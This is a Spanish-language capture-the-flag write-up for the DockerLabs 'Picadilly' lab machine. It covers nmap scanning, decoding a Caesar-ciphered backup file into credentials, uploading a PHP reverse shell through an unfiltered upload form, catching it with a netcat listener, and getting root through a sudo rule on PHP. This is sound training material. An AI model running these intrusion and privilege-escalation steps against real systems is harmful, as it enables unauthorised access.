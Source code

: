 Máquina Picadilly

Esta máquina presenta una ruta de explotación sencilla pero completa: detección de credenciales en un archivo público, un sistema de subida vulnerable sin filtros, y una mala configuración de `sudo` que permite ejecución de comandos como root mediante PHP. Es ideal para entender fallos típicos en seguridad web y escalada de privilegios basada en configuraciones inseguras.

## Despliegue de la Máquina

Descargamos la máquina `picadilly.zip` desde la página oficial de DockerLabs descomprimo el .zip

```bash
7z e picadilly.zip
```

Luego desplegamos la máquina ejecutando:

```bash
sudo auto_deploy.sh picadilly.tar
```

![Evidencia](/Evidencias/3.JPG)

Verificamos que la máquina esté activa con un simple `ping`:

```bash
ping -c1 172.17.0.2
```
![Evidencia](/Evidencias/4.JPG)

---

## Reconocimiento con Nmap

Vamos a ver que puertos estan activos con un escaneo completo de puertos con Nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Evidencia](/Evidencias/5.JPG)

Con los puertos que apareciron, hacemos un escaneo más detallado para identificar servicios y versiones:

```bash
nmap -sC -sV -p 80,443 172.17.0.2 -oN target.txt
```
![Evidencia](/Evidencias/6.JPG)


---

## Análisis de las Aplicaciones Web

Accedemos:

```

http://172.17.0.2/
```

En esta página encontramos un archivo visible llamado `backup.txt`.

![Evidencia](/Evidencias/7.JPG)

Este archivo contenía un acertijo cifrado con el método César. Tras descifrarlo, obtuvimos la palabra clave:
![Evidencia](/Evidencias/8.JPG)

Este archivo contenía un acertijo cifrado con un encriptado César

con el encontramos las credenciales:
**Usuario:** mateo
**Contraseña:** easycrazy 

Ahora Accedemos al puerto **443 (HTTPS)** en:

```
https://172.17.0.2/
```

Allí se presenta una página con un sistema de publicación de posts y una funcionalidad de subida de archivos (upload).

![Evidencia](/Evidencias/9.JPG)

---

## Obtención de Acceso con Reverse Shell

Como se pueden subir archivos en la sección de posts, intentamos subir una *reverse shell* en PHP.

Va tomar un scrit de la web para la reverse shell:

![Evidencia](/Evidencias/10.JPG)


creamos con nano reverse shell y la subimos y miramos que la ruta https://172.17.0.2/uploads/ esta disponible, hemientaDirbuster


![Evidencia](/Evidencias/11.JPG)
![Evidencia](/Evidencias/12.JPG)
![Evidencia](/Evidencias/14.JPG)
![Evidencia](/Evidencias/13.JPG)


Colocamos nuestro host en modo escucha con:

```bash
sudo nc -lvnp 443
```

Y accedimos a la shell mediante:

```
https://172.17.0.2/uploads/reverse.phar
```

y nos podemos conectar.

---


##  Escalada de Privilegios

Ya dentro del sistema, buscamos métodos para escalar privilegios.

Primero ejecutamos:

```bash
sudo -l
```

Nos vamos a  `/home`, donde veremos que el usuario `mateo` existía.

Probamos autenticarnos como `mateo` con la contraseña que encontramos en el archivo `backup.txt`, ahora ya descifrada:

```
su mateo
Contraseña: easycrazy
```

Al entrar como `mateo`, volvimos a revisar sudo:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/php
```

Esto nos dio acceso total. Ejecutamos el siguiente comando para obtener una shell como root:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

![Evidencia](/Evidencias/26.JPG)

---



